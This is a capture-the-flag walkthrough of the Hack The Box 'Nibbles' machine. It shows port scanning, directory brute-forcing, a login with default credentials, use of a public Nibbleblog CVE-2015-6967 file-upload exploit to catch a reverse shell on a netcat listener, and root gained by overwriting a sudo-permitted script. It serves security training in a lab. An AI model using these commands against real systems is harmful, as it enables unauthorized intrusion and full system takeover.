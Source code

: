 ```yaml
---
layout: post
title: Nibbles
date: 2024-07-17 10:00:00 -0400
---
```

![machine card](/assets/nibbles/Nibbles.png)

Nibbles is a relatively simple box. It runs a vulnerable version of nibbleblog. The privilege escalation process involves exploiting sudo permissions on a file that everyone can write to.

# Recon

## nmap

I initiated an aggressive TCP scan using Nmap to enumerate all ports on the target machine.
```sh
spacemoth in ~/htb/nibbles λ nmap -sT -p- --min-rate 10000 -oA scans/alltcp 10.129.83.143            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-17 20:27 EDT
Nmap scan report for 10.129.83.143
Host is up (0.035s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.66 seconds
```

I conducted a service version scan using Nmap to gather more detailed information about the identified open ports on the target machine.
```sh
spacemoth in ~/htb/nibbles λ nmap -p 22,80 -sV -sC -oA scans/svscan 10.129.83.143      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-17 20:37 EDT
Nmap scan report for 10.129.83.143
Host is up (0.032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.68 seconds
```

## Port 80

![machine card](/assets/nibbles/nibbles1.png)

I check the source of the page and see another directory listed: /nibbleblog/

![machine card](/assets/nibbles/nibbles2.png)

### /nibbleblog/

![machine card](/assets/nibbles/nibbles3.png)

I poked around a bit, but didn't find much. I ran a `gobuster` scan and found an admin login page.

```sh
spacemoth in ~/htb/nibbles λ gobuster dir -u http://10.129.83.143/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php                   
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.83.143/nibbleblog
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 303]
/index.php            (Status: 200) [Size: 2988]
/sitemap.php          (Status: 200) [Size: 403]
/content              (Status: 301) [Size: 327] [--> http://10.129.83.143/nibbleblog/content/]
/themes               (Status: 301) [Size: 326] [--> http://10.129.83.143/nibbleblog/themes/]
/feed.php             (Status: 200) [Size: 304]
/admin.php            (Status: 200) [Size: 1401]
/admin                (Status: 301) [Size: 325] [--> http://10.129.83.143/nibbleblog/admin/]
/plugins              (Status: 301) [Size: 327] [--> http://10.129.83.143/nibbleblog/plugins/]
/install.php          (Status: 200) [Size: 78]
/update.php           (Status: 200) [Size: 1622]
/README               (Status: 200) [Size: 4628]
/languages            (Status: 301) [Size: 329] [--> http://10.129.83.143/nibbleblog/languages/]
/.php                 (Status: 403) [Size: 303]
Progress: 235515 / 441122 (53.39%)2024-07-17 21:19:07 VERIFY OK: depth=2, C=GR, O=Hack The Box, OU=Systems, CN=HTB VPN: Root Certificate Authority
2024-07-17 21:19:07 VERIFY OK: depth=1, C=GR, O=Hack The Box, OU=Systems, CN=HTB VPN: us-dedivip-1 Issuing CA
2024-07-17 21:19:07 VERIFY KU OK
2024-07-17 21:19:07 Validating certificate extended key usage
2024-07-17 21:19:07 ++ Certificate has EKU (str) TLS Web Client Authentication, expects TLS Web Server Authentication
2024-07-17 21:19:07 ++ Certificate has EKU (oid) 1.3.6.1.5.5.7.3.2, expects TLS Web Server Authentication
2024-07-17 21:19:07 ++ Certificate has EKU (str) TLS Web Server Authentication, expects TLS Web Server Authentication
2024-07-17 21:19:07 VERIFY EKU OK
2024-07-17 21:19:07 VERIFY OK: depth=0, C=GR, O=Hack The Box, OU=Systems, CN=us-dedivip-1
Progress: 235525 / 441122 (53.39%)2024-07-17 21:19:08 Control Channel: TLSv1.3, cipher TLSv1.3 TLS_AES_256_GCM_SHA384, peer certificate: 256 bits ED25519, signature: ED25519, peer temporary key: 253 bits X25519
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

### Admin

![machine card](/assets/nibbles/nibbles4.png)

I try a bunch of default credentials, and finally got in with admin:nibbles.

![machine card](/assets/nibbles/nibbles6.png)

## Exploit CVE-2015-6967

The readme showed version 4.0.3 of Nibbleblog.

![machine card](/assets/nibbles/nibbles5.png)

I found an Arbitrary File Upload exploit: https://github.com/dix0nym/CVE-2015-6967. Downloaded the script to my machine, created a simple php shell and set up a listener.

```sh
spacemoth in ~/htb/nibbles λ python3 exploit.py --url http://10.129.83.143/nibbleblog/ --username admin --password nibbles --payload shell.php
[+] Login Successful.
[+] Upload likely successfull.
```

At my listener I get a shell and obtain user flag.

```sh
spacemoth in ~/htb/nibbles λ sudo nc -lvnp 443                               
[sudo] password for spacemoth: 
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.129.83.143] 41246
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 21:19:52 up 56 min,  0 users,  load average: 0.00, 0.07, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
nibbler@Nibbles:/$ ^Z
[1]  + 383143 suspended  sudo nc -lvnp 443
spacemoth in ~/htb/nibbles λ stty raw -echo; fg
[1]  + 383143 continued  sudo nc -lvnp 443

nibbler@Nibbles:/$ whoami
nibbler
nibbler@Nibbles:/$ ls
bin   home	      lib64	  opt	sbin  tmp      vmlinuz.old
boot  initrd.img      lost+found  proc	snap  usr
dev   initrd.img.old  media	  root	srv   var
etc   lib	      mnt	  run	sys   vmlinuz
nibbler@Nibbles:/$ cd home
nibbler@Nibbles:/home$ ls
nibbler
nibbler@Nibbles:/home$ cd nibbler
nibbler@Nibbles:/home/nibbler$ ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ cat user.txt
271a73c**************************
```

## Root

First thing I usually do is `sudo -l`

```sh
nibbler@Nibbles:/home/nibbler$ sudo -l           
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

The file monitor.sh doesn't exist and I don't have permissions to create the directories/files. However there is a zip file in Nibbler's home directory. I unzipped it and it created /home/nibbler/personal/stuff/monitor.sh

```sh
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

I overwrote the file and gave it permisions to execute.

```sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '#!/bin/bash' > monitor.sh  
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '/bin/bash' >> monitor.sh   
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh             
root@Nibbles:/home/nibbler/personal/stuff# whoami
root
```

```sh
root@Nibbles:/home/nibbler/personal/stuff# cd /root
root@Nibbles:~# cat root.txt
bf8cb***************************
```
